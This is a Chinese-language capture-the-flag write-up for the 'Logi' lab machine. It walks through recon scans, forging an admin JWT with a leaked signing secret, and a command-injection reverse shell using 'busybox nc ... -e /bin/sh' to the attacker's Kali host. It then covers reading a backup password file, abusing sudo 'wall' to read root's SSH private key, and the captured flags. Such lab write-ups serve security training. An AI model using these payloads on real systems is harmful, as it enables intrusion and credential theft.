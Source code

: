 ```yaml
---
title: Logi靶机
date: 2025-10-22
updated: 2025-10-22
categories: 渗透测试
comment: false
tags:
  - 渗透测试
  - Web安全
top: 0
---
```


### 攻击机：Kali Linux

### 一. 信息搜集

#### 先做存活主机发现

``` shell
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:2a:66:17, IPv4: 192.168.1.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.199   08:00:27:05:1c:24       PCS Systemtechnik GmbH
…… ……
```

#### nmap 端口扫描

``` shell
┌──(root㉿kali)-[~]
└─# nmap -sC -sV -p- -T4 192.168.1.199
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-30 11:51 CST
Nmap scan report for 192.168.1.199
Host is up (0.00055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: TI15 AME\xE5\x8A\xA9\xE5\xA8\x81
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:05:1C:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.22 seconds
```

#### gobuster 做目录扫描

``` shell
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.1.199 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.199
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/user                 (Status: 200) [Size: 2170]
/admin                (Status: 200) [Size: 1576]
/server-status        (Status: 403) [Size: 278]
Progress: 220557 / 220557 (100.00%)
===============================================================
Finished
===============================================================
```

### 二. HTTP 服务

#### 用 curl 查看主页内容

![image-20250930115659409](./image-20250930115659409.png)

疑似遗留账号

#### curl 查看/admin 内容

![image-20250930120121037](./image-20250930120121037.png)

也就是说这里要用 token 提交，我们看到的登录框是错误的

#### /user 没有什么可疑内容，不作演示

### 访问 HTTP 主页

#### 主页发现可能有用的信息

![image-20250930120301568](./image-20250930120301568.png)

提示很明显，得到字符串：nevergiveup

#### 访问 user 进行登录尝试

登陆上之后页面无有用信息，F12 查看网络刷新拿到 token

![image-20250930120456522](./image-20250930120456522.png)

#### JWT 解码

该 token 格式像 json web token 格式（xxxxx.xxxxxxx）

去尝试解码（https://jwt.p2hp.com/），验证签名大概率是之前得到的字符串 nevergiveup，然后 role 改成 admin

![image-20250930120737861](./image-20250930120737861.png)

#### 利用 token 登录 admin 页面

yakit/bp 抓包，这里不作演示

![image-20250930120903746](./image-20250930120903746.png)

#### Web Fuzz 测试

访问 karsakarsa369.php，页面显示 fuzz，猜测参数“cmd、commond、sys、system”等，这里测试后参数为 cmd

![image-20250930121120535](./image-20250930121120535.png)

用 exec()函数反向连接，在 Kali 上监听端口

``` url
http://192.168.1.199/karsakarsa369.php?cmd=exec(%27busybox%20nc%20192.168.1.190%207777%20-e%20/bin/sh%27);
```

``` shell
(root㉿kali)-[~]
└─# nc -lvnp 7777                     
listening on [any] 7777 ...
connect to [192.168.1.190] from (UNKNOWN) [192.168.1.199] 54252
whoami
www-data
```

### user 用户提权

稳定化 shell 界面后，尝试 sudo -l 等命令发现需要密码，home 下也没有什么可疑文件

最后在寻找中找到密码 /var/backups/passwd

``` shell
www-data@logi:/var/backups$ ls -al
total 60
drwxr-xr-x  2 root root  4096 Sep 29 07:28 .
drwxr-xr-x 12 root root  4096 Sep 28 09:25 ..
-rw-r--r--  1 root root 25397 Sep 28 10:51 apt.extended_states.0
-rw-r--r--  1 root root  2568 Apr 11 22:03 apt.extended_states.1.gz
-rw-r--r--  1 root root  2556 Apr  4 22:55 apt.extended_states.2.gz
-rw-r--r--  1 root root  2006 Apr  1 10:05 apt.extended_states.3.gz
-rw-r--r--  1 root root  1542 Apr  1 03:53 apt.extended_states.4.gz
-rw-r--r--  1 root root   757 Mar 30  2025 apt.extended_states.5.gz
-rw-r--r--  1 root root    20 Sep 28 10:47 passwd
www-data@logi:/var/backups$ cat passwd
xiangwozheyangderen
```

### root 用户提权

sudo -l 发现无密码执行

``` shell
ame@logi:~$ sudo -l
sudo: unable to resolve host logi: Name or service not known
Matching Defaults entries for ame on logi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ame may run the following commands on logi:
    (ALL) NOPASSWD: /usr/bin/wall
```

wall 文件利用（[wall | GTFOBins](https://gtfobins.github.io/gtfobins/wall/)）

![image-20250930122828452](./image-20250930122828452.png)

尝试用这个方法去读 root.txt，发现读不到，那就试一下读 ssh 文件（/root/.ssh/id_rsa）

先用自己的 ssh 工具登录 ame 用户

![image-20250930123517323](./image-20250930123517323.png)

然后用 Kali 连接靶机 root 用户登录

``` shell
┌──(root㉿kali)-[~]
└─# ssh -i ./ssh root@192.168.1.199 
Linux logi 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep 29 07:40:55 2025 from ::1
root@logi:~# 
```



tips:

``` shell
Permissions 0644 for './ssh' are too open.
# 权限太开放了，需要修改文件权限
chmod 600 your_ssh_file

└─# ssh -i ./ssh root@192.168.1.199
Load key "./ssh": error in libcrypto
# 制表符没删，用一下sed删除空格
sed -i 's/[[:space:]]*$//' your_ssh_file
```

flag：

``` shell
user:{niudexiongdiniude}
root{xiangrootzheyangderen}
```

